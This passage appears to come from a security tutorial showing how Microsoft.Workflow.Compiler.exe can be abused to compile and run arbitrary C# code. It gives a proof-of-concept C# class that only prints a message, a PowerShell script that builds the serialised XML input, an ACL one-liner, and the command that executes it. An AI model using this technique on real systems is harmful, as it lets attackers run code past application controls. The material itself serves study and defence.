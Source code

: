file containing code we provide must contain a class that inherits from the Activity class of the System.Workflow.ComponentModel namespace and must contain the code we want to execute inside its constructor.

Proof of concept code as input file- test.txt

    using System;
    using System.Workflow.ComponentModel;
    public class Run : Activity{
        public Run() {
            Console.WriteLine("I executed!");
        }
    }

we need to create a valid input file in XML format that will be processed by Microsoft.Workflow.Compiler and used to compile and load our C# code

Powershell Script:

    $workflowexe = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe"
    $workflowasm = [Reflection.Assembly]::LoadFrom($workflowexe)
    $SerializeInputToWrapper = [Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod('SerializeInputToWrapper', [Reflection.BindingFlags] 'NonPublic, Static')
    Add-Type -Path 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Workflow.ComponentModel.dll'
    $compilerparam = New-Object -TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters
    $compilerparam.GenerateInMemory = $True
    $pathvar = "test.txt"
    $output = "C:\run.xml"
    $tmp = $SerializeInputToWrapper.Invoke($null, @([Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerparam, [String[]] @(,$pathvar)))
    Move-Item $tmp $output

Verify Contents of serialized XML file generated by SerializeInputToWrapper

    cmd> type C:\run.xml

we need to ensure the student is able to access the generated file:

    PS C:\> $Acl = Get-ACL $output;$AccessRule= New-Object System.Security.AccessControl.FileSystemAccessRule(“username”,”FullControl”,”none”,”none","Allow");$Acl.AddAccessRule($AccessRule);Set-Acl $output $Acl

Executing the proof of concept:

    cmd> C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe run.xml results.xml

The downside to this attack is that we must provide both the XML file and the C# code file on disk, and the C# code file will be compiled temporarily to disk as well.
    
